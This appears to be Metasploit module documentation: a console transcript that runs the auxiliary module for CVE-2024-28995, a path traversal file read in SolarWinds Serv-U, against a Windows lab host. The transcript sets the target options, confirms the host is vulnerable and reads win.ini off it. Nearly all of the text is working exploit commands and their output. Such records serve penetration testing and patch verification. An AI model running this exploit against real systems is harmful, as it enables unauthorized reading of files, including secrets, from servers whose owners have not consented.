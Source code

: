 ### A vulnerable Windows target

```
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RHOST 192.168.86.68
RHOST => 192.168.86.68
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set RPORT 80
RPORT => 80
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > set TARGETFILE c:\\\\Windows\\win.ini
TARGETFILE => c:\\Windows\win.ini
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > show options 

Module options (auxiliary/gather/solarwinds_servu_fileread_cve_2024_28995):

   Name                  Current Setting      Required  Description
   ----                  ---------------      --------  -----------
   PATH_TRAVERSAL_COUNT  4                    yes       The number of double dot (..) path segments needed to traverse to the root folder.
   Proxies                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                192.168.86.68        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 80                   yes       The target port (TCP)
   SSL                   false                no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT            false                no        Store the target file as loot
   TARGETFILE            c:\\Windows\win.ini  yes       The full path of a target file to read.
   TARGETURI             /                    yes       The base URI path to the web application
   VHOST                                      no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > check
[+] 192.168.86.68:80 - The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Windows Server 2012 64-bit; Version: 6.2.9200)
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > run
[*] Running module against 192.168.86.68

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Windows Server 2012 64-bit; Version: 6.2.9200)
[*] Reading file c:\\Windows\win.ini
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

[*] Auxiliary module execution completed
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) >
```
